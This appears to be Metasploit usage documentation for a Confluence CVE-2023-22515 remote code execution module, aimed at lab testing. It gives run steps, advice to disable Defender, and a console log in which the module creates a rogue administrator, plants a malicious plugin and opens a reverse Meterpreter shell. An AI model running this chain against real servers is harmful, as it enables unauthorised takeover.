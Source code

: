 ## Vulnerable Application
This module exploits an improper input validation issue in Atlassian Confluence, allowing arbitrary HTTP
parameters to be translated into getter/setter sequences via the XWorks2 middleware and in turn allows for
Java objects to be modified at run time. The exploit will create a new administrator user and  upload a
malicious plugins to get arbitrary code execution. All versions of Confluence between 8.0.0 through to 8.3.2,
8.4.0 through to 8.4.2, and 8.5.0 through to 8.5.1 are affected.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis).

## Testing
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download.).
By default the server will listen for HTTP connections on port 8090. This exploit module was tested against Confluence
8.5.1 running on Windows Server 2022.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/atlassian_confluence_rce_cve_2023_22515`
3. `set RHOST 192.168.86.50`
4. `check`
5. `exploit`

## Options

### TARGETURI

The base path for the target servers Confluence installation. By default this option is set to `/`.

### CONFLUENCE_TARGET_ENDPOINT

This is the endpoint used to trigger the vulnerability, and must be reachable by an un authenticated HTTP(S) POST
request. Any Confluence Action endpoint that extends the base class `ConfluenceActionSupport` is likely to work. Two
example endpoints that have been tested are `server-info.action` and `ajax/spaceavailable.action`. By default this
option is set to `server-info.action`.

### CONFLUENCE_PLUGIN_TIMEOUT

The exploit will install a malicious plugin into the Confluence server. Plugin installation is performed asynchronously
and we must poll the server to find out when installation has completed. This option governs the maximum amount
of time to wait for installation to complete. The timeout value is in seconds and by default this option is set to `30`.

## Scenarios

### Automatic
```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > show options

Module options (exploit/multi/http/atlassian_confluence_rce_cve_2023_22515):

   Name                        Current Setting     Required  Description
   ----                        ---------------     --------  -----------
   CONFLUENCE_PLUGIN_TIMEOUT   30                  yes       The timeout to wait when installing a plugin
   CONFLUENCE_TARGET_ENDPOINT  server-info.action  yes       The endpoint used to trigger the vulnerability.
   Proxies                                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      192.168.86.50       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                                             ploit.html
   RPORT                       8090                yes       The target port (TCP)
   SSL                         false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   /                   yes       Base path for Confluence
   VHOST                                           no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > check
[*] 192.168.86.50:8090 - The target appears to be vulnerable. Atlassian Confluence 8.5.1
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Atlassian Confluence 8.5.1
[*] Setting the application configuration's setupComplete to false via endpoint: /server-info.action
[*] Creating a new administrator user account...
[*] Created zskghlfv:NDqbcj4N
[*] Adding a malicious plugin...
[*] Waiting for plugin to be installed...
[*] Triggering payload...
[*] Deleting plugin...
[*] Sending stage (57692 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:56898) at 2023-10-16 20:41:57 +0100

meterpreter > getuid
Server username: WIN-V28QNSO2H05$
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > pwd
C:\Program Files\Atlassian\Confluence
meterpreter > 
```
